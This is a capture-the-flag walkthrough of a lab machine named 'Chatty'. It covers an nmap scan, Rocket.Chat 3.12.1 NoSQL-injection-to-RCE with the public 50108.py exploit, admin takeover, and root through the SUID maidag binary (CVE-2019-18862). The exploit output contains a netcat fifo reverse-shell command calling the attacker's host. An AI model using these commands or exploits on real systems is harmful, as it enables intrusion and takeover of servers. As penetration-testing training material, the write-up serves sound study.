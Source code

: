 # Chatty

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 1000 192.168.183.164
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 21:32 +08
Warning: 192.168.183.164 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.183.164
Host is up (0.17s latency).
Not shown: 65500 closed tcp ports (conn-refused), 33 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
3000/tcp open  ppp
```

### Rocket Chat --> Admin Takeover

Port 3000 hosted an instance of Rocket Chat:

<figure><img src="../../../.gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>

We can enumerate the version by visiting the `/api/info` page:

```
$ curl http://192.168.183.164:3000/api/info | jq 
{
  "version": "3.12.1",
  "success": true
}
```

This version of Rocket Chat is vulnerable to a NoSQL Injection exploit:

```
$ searchsploit rocket chat 3.12
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Rocket.Chat 3.12.1 - NoSQL Injection (Unauthenticated)     | linux/webapps/49960.py
Rocket.Chat 3.12.1 - NoSQL Injection to RCE (Unauthenticat | linux/webapps/50108.py
----------------------------------------------------------- ---------------------------------
```

I registered a new account and found the administrator profile of this instance:

<figure><img src="../../../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>

We can use `50108.py` to exploit this. Since we created our own low priv user, we can comment the part of the script that resets the low priv user's password:

<figure><img src="../../../.gitbook/assets/image (113).png" alt=""><figcaption></figcaption></figure>

Then, we also need to change the `password` of the low priv user to the one that we used.&#x20;

<figure><img src="../../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

After running the exploit, we would be given RCE access, and getting a reverse shell is pretty simple:

```
$ python3 50108.py -u 'test@website.com' -a 'admin@chatty.offsec' -t 'http://192.168.183.164:3000'
[+] Succesfully authenticated as test@website.com
Got the code for 2fa: GJLFCKKOOBCVOYSCOJYHCUZ7NAUSUMKYEZAF43RVJ5KC62JYGVYA
[+] Resetting admin@chatty.offsec password
[+] Password Reset Email Sent
[+] Succesfully authenticated as test@website.com
Got the reset token: GsL4Y53r7id414kW7PYJsZVO5YkZkkz4eCvPOrybMkl
[+] Admin password changed !
CMD:> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.45.184 21 >/tmp/f
[+] Succesfully authenticated as administrator
{"success":false}
```

<figure><img src="../../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SUID Binary --> MaiDag CVE

I searched for SUID binaries within the system, and found one that stood out:

```
rocketchat@chatty:~$ find / -perm -u=s -type f 2>/dev/null
<TRUNCATED>
/usr/local/sbin/maidag
```

I didn't recognise `maidag`, and so enumerated it first.&#x20;

```
rocketchat@chatty:~$ /usr/local/sbin/maidag --version
maidag (GNU Mailutils) 3.7
Copyright (C) 2007-2019 Free Software Foundation, inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
```

Googling the binary and its version returns a Local Privilege Escalation exploit:

{% embed url="https://www.exploit-db.com/exploits/47703" %}

There are online exploits on Github to make this process as easy as possible:

{% embed url="https://github.com/bcoles/local-exploits/tree/master/CVE-2019-18862" %}

I used `exploit.ldpreload.sh` and ran it on the machine. This would spawn a binary `sh` within `/var/tmp` that would give us a `root` shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

Rooted!
